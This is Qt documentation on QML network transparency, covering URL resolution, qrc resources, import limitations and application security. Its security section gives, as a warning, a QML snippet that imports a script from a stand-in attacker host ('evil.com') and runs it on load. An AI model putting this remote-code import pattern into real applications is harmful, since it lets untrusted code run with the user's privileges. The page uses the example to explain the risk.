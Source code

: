 QtQml.qtqml-documents-networktransparency
=========================================

.. raw:: html

   <p>

QML supports network transparency by using URLs (rather than file names)
for all references from a QML document to other content. This means that
anywhere a URL source is expected, QML can handle remote resources as
well as local ones, for example in the following image source:

.. raw:: html

   </p>

.. raw:: html

   <pre class="qml"><span class="type">Image</span> {
   <span class="name">source</span>: <span class="string">&quot;http://www.example.com/images/logo.png&quot;</span>
   }</pre>

.. raw:: html

   <p>

Since a relative URL is the same as a relative file, development of QML
on regular file systems remains simple:

.. raw:: html

   </p>

.. raw:: html

   <pre class="qml"><span class="type">Image</span> {
   <span class="name">source</span>: <span class="string">&quot;images/logo.png&quot;</span>
   }</pre>

.. raw:: html

   <p>

Network transparency is supported throughout QML, for example:

.. raw:: html

   </p>

.. raw:: html

   <ul>

.. raw:: html

   <li>

Fonts - the source property of FontLoader is a URL

.. raw:: html

   </li>

.. raw:: html

   <li>

WebViews - the url property of WebView (obviously!)

.. raw:: html

   </li>

.. raw:: html

   </ul>

.. raw:: html

   <p>

Even QML types themselves can be on the network - if the Prototyping
with qmlscene is used to load http://example.com/mystuff/Hello.qml and
that content refers to a type "World", the engine will load
http://example.com/mystuff/qmldir and resolve the type just as it would
for a local file. For example if the qmldir file contains the line
"World World.qml", it will load http://example.com/mystuff/World.qml Any
other resources that Hello.qml referred to, usually by a relative URL,
would similarly be loaded from the network.

.. raw:: html

   </p>

.. raw:: html

   <h2 id="relative-vs-absolute-urls">

Relative vs. Absolute URLs

.. raw:: html

   </h2>

.. raw:: html

   <p>

Whenever an object has a property of type URL (QUrl), assigning a string
to that property will actually assign an absolute URL - by resolving the
string against the URL of the document where the string is used.

.. raw:: html

   </p>

.. raw:: html

   <p>

For example, consider this content in
http://example.com/mystuff/test.qml:

.. raw:: html

   </p>

.. raw:: html

   <pre class="qml"><span class="type">Image</span> {
   <span class="name">source</span>: <span class="string">&quot;images/logo.png&quot;</span>
   }</pre>

.. raw:: html

   <p>

The Image source property will be assigned
http://example.com/mystuff/images/logo.png, but while the QML is being
developed, in say
C::raw-latex:`\User`:raw-latex:`\Fred`:raw-latex:`\Documents`:raw-latex:`\MyStuff`:raw-latex:`\test`.qml,
it will be assigned
C::raw-latex:`\User`:raw-latex:`\Fred`:raw-latex:`\Documents`:raw-latex:`\MyStuff`:raw-latex:`\images`:raw-latex:`\logo`.png.

.. raw:: html

   </p>

.. raw:: html

   <p>

If the string assigned to a URL is already an absolute URL, then
"resolving" does not change it and the URL is assigned directly.

.. raw:: html

   </p>

.. raw:: html

   <h2 id="qrc-resources">

QRC Resources

.. raw:: html

   </h2>

.. raw:: html

   <p>

One of the URL schemes built into Qt is the "qrc" scheme. This allows
content to be compiled into the executable using The Qt Resource System.
Using this, an executable can reference QML content that is compiled
into the executable:

.. raw:: html

   </p>

.. raw:: html

   <pre class="cpp">    <span class="type">QQuickView</span> <span class="operator">*</span>view <span class="operator">=</span> <span class="keyword">new</span> <span class="type">QQuickView</span>;
   view<span class="operator">-</span><span class="operator">&gt;</span>setUrl(<span class="type">QUrl</span>(<span class="string">&quot;qrc:/dial.qml&quot;</span>));</pre>

.. raw:: html

   <p>

The content itself can then use relative URLs, and so be transparently
unaware that the content is compiled into the executable.

.. raw:: html

   </p>

.. raw:: html

   <h2 id="limitations">

Limitations

.. raw:: html

   </h2>

.. raw:: html

   <p>

The import statement is only network transparent if it has an "as"
clause.

.. raw:: html

   </p>

.. raw:: html

   <p>

More specifically:

.. raw:: html

   </p>

.. raw:: html

   <ul>

.. raw:: html

   <li>

import "dir" only works on local file systems

.. raw:: html

   </li>

.. raw:: html

   <li>

import libraryUri only works on local file systems

.. raw:: html

   </li>

.. raw:: html

   <li>

import "dir" as D works network transparently

.. raw:: html

   </li>

.. raw:: html

   <li>

import libraryUrl as U works network transparently

.. raw:: html

   </li>

.. raw:: html

   </ul>

.. raw:: html

   <h2 id="implications-for-application-security">

Implications for Application Security

.. raw:: html

   </h2>

.. raw:: html

   <p>

The QML security model is that QML content is a chain of trusted
content: the user installs QML content that they trust in the same way
as they install native Qt applications, or programs written with
runtimes such as Python and Perl. That trust is establish by any of a
number of mechanisms, including the availability of package signing on
some platforms.

.. raw:: html

   </p>

.. raw:: html

   <p>

In order to preserve the trust of users, QML application developers
should not load and execute arbitrary JavaScript or QML resources. For
example, consider the QML code below:

.. raw:: html

   </p>

.. raw:: html

   <pre class="qml">import QtQuick 2.0
   import &quot;http://evil.com/evil.js&quot; as Evil
   <span class="type"><a href="QtQml.Component.md">Component</a></span> {
   <span class="name">onLoaded</span>: <span class="name">Evil</span>.<span class="name">doEvil</span>()
   }</pre>

.. raw:: html

   <p>

This is equivalent to downloading and executing
"http://evil.com/evil.exe". The QML engine will not prevent particular
resources from being loaded. Unlike JavaScript code that is run within a
web browser, a QML application can load remote or local filesystem
resources in the same way as any other native applications, so
application developers must be careful in loading and executing any
content.

.. raw:: html

   </p>

.. raw:: html

   <p>

As with any application accessing other content beyond its control, a
QML application should perform appropriate checks on any untrusted data
it loads. Do not, for example, use import, Loader or XMLHttpRequest to
load any untrusted code or content.

.. raw:: html

   </p>

.. raw:: html

   <!-- @@@qtqml-documents-networktransparency.html -->
